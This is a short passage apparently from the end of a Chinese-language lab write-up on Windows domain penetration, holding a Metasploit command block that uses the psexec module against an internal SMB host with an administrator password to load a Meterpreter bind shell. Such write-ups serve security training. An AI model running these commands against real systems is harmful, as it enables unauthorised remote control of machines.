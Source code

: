 - msf

```cmd
use exploit/windows/smb/psexec
set rhosts 192.168.93.30
set SMBUser administrator
set SMBPass Whoami2021
set payload windows/meterpreter/bind_tcp
set rhost 192.168.93.30
run
```

![image-20250318151140068](./assets/image-20250318151140068.png)

- 到这里整个`域渗透`就结束了